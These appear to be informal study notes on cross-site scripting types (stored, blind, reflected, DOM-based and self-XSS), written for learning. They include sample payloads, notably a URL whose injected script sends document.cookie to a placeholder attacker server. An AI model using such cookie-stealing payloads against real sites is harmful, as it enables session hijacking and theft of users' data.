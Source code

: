 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* Stored XSS - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
 * Blind XSS - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * Reflected XSS - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * https://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * DOM-based XSS - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * Can be embedded in fragments and URL parameters:
         * https://example.com#about_us
         * https://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * Self-XSS - a social engineering attack that tricks users into executing a XSS intructed by the attacker.
